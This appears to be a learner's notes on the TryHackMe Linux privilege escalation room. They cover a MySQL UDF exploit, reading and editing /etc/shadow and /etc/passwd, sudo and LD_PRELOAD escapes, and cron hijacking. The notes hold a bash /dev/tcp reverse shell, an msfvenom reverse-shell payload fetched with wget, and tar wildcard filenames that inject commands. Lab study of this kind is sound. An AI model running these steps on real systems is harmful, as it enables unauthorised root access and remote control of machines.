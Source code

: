 # TryHackMe Linux PrivEsc Room
#TryHackMe #Privesc #Linux

1.  Service exploits

If mysql is running as root and the root user *does not have a password*, then we can take advantage of **User Defined Functions (UDF´S)** to run system commands as root via MySQL service.

`cd /home/user/tools/mysql-udf`

Compile raptor_udfc2.c exploit using the following:

`gcc -g -c raptor_udf2.c -fPIC`

`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 
raptor_udf2.o -lc`

Now we just need to run MySQL

`MySQL -u root`

Execute these commands on MySQL to create an **UDF** "do_system" using the compiled exploit (don´t forget to change load file path for the path of the actual exploit )

```use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';`
Use function to copy /bin/bash to /tmp/rootbash and set SUID perms.

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
```
Exit out of MySQL and run

`/tmp/rootbash`

I should have a shell by now

Remove executable by typping

`rm /tmp/rootbash`

`exit`

2. Weak file permissions
	- Readable /etc/shadow
	
		Check the permissions for shadow file
		
		`ls -l /etc/shadow`
		
		Read shadow file
		
		`cat /etc/shadow`
		
		Copy root user hash (**SHA512 CRYPT**) and decrypt it with john
		
		`john hash.txt`
		
		Switch to root user and use decrypted password
		
		`su root`
		
	- Writable /etc/shadow
	
		Check the permissions for shadow file
		
		`ls -l /etc/shadow`
		
		Generate new password of choice and replace the root hash with the new one
		
		`makepasswd -m sha-512 newpass`
		
		Login in with the new password
		
		`su root`
		
	- Writable 	/etc/passwd
	
		Check if passwd file is writable
		
		`ls -l /etc/passwd`
		
		Generate new password with hash
		
		`openssl passwd newpasswordhere`
		
		Edit the /etc/passwd file with the generated password hash
		
		Switch to the root user using the new password
		
		`su root`
		
		You can always copy and paste the root user´s row and paste it on the bottom of the file changing the username
		
		`su newroot`
3. SUDO
	- Shell escape sequencies
	
		List programs which sudo is allowed to run
		
		`sudo -l`
		
		Got to https://gtfobins.github.io and search for some of the program names, if any program is listed as sudo then you can use it to elevate your privileges
		
		How many programs is "user" allowed to run via sudo?
		
		*11*
		One program on the list doesn't have a shell escape sequence on GTFOBins. 
		
		Which is it?
		
		*Apache2*
	- Environment Variables
	
		Check which encironment variables are inherited (look for env_keep options):
		
		`sudo -l`
		
		LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
		
		Create a shared object using the code located at /home/user/tools/sudo/preload.c:
		
		`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`
		
		Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
		
		`sudo LD_PRELOAD=/tmp/preload.so program-name-here`
		
		Root shell should spawn

3. Cron Jobs
	- File permissions
	
		View content of system-wide crontab:
		
		`cat /etc/crontab`
		
		Two cron jobs scheduled to run everyminute, one runs overwrite.sh the other compress.sh
		
		`locate overwrite.sh`
		
		Check if file is world writable
		
		`ls -l /usr/local/bin/overwrite.sh`
		
		Replace contents of file with this
		
		```#!/bin/bash
		bash -i >& /dev/tcp/YOUR_IP_HERE/PORT_HERE 0>&1
		```
		
		Finally set up a netcat listener 
		
		`nc -nvlp 4444`
	- Path Environment Variable
	
		View contents of system-wide crontab:
		
		`cat /etc/crontab`
		PATH variable starts with /home/user which is the users home directory
		
		Create a file called overwrite.sh in the home directory
		
		`nano overwrite.sh`
		
		Paste this into the file
		
		```#!/bin/bash
		cp /bin/bash /tmp/rootbash
		chmod +xs /tmp/rootbash
		```
		
		Make the file executable 
		
		`chmod +x /home/user/overwrite.sh`
		
		Wait for cron job to run, run this command to get a shell with root privileges
		
		`tmp/rootbash -p`
		
		Remove the modified code
		
		`rm /tmp/rootbash`
		
		`exit`
	- Wildcards
	
		View content of cron job script
		
		`cat /usr/local/bin/compress.sh`
		
		Note that tar command is being running with the wildcard () in the home 
		directory. 
		
		Take a look at https://gtfobins.github.io/ for the tar command
		
		Use msfvenom on kali box to generate reverse shell ELF binary
		
		`msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=4444 -f elf -o shell.elf`
		
		Transfer shell.elf file to debian machine
		
		`python3 -m http.server -b MACHINE_IP_HERE`
		`wget MACHINE_IP:8000/FULL_PATH`
		
		Make the file executible
		
		`chmod +x /home/user/shell.elf`
		
		Create two files in /home/user:
		
		`touch /home/user/--checkpoint=1
		
		touch /home/user/--checkpoint-action=exec=shell.elf`
		
		Setup a netcat listener
		
		`nc -nvlp 4444`
		
		Exit out the root shell and delete files
		
		```rm /home/user/shell.elf
		rm /home/user/--checkpoint=1
		rm /home/user/--checkpoint-action=exec=shell.elf
		```
